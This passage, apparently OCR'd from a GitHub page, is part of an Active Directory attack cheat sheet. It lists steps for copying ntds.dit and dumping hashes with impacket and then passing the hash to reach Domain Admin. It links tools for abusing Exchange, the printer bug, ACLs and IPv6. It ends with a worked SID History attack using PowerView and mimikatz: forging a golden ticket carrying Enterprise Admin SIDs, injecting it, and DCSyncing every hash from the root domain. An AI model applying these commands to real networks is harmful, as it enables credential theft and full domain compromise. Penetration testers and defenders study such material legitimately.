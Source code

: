 * Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
* Use secretsdump.py from impacket and dump the hashes.
* Use psexec or another tool of your choice to PTH and get Domain Admin access.

#### **Abusing Exchange**

* [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

#### **Weaponizing Printer Bug**

* [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
* [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

#### **Abusing ACLs**

* [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

#### **Abusing IPv6 with mitm6**

* [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [mitm6](https://github.com/fox-it/mitm6)

#### **SID History Abuse**

_WUT IS DIS?: If we manage to compromise a child domain of a forest and_ [_SID filtering_](https://www.itprotoday.com/windows-8/sid-filtering) _isn’t enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the_ [_SID History_](https://www.itprotoday.com/windows-8/sid-history) _field on a kerberos TGT ticket, that defines the “extra” security groups and privileges._

Exploitation example:

```
#Get the SID of the Current Domain using PowerView
Get-DomainSID -Domain current.root.domain.local

#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory
kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain
dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all
```
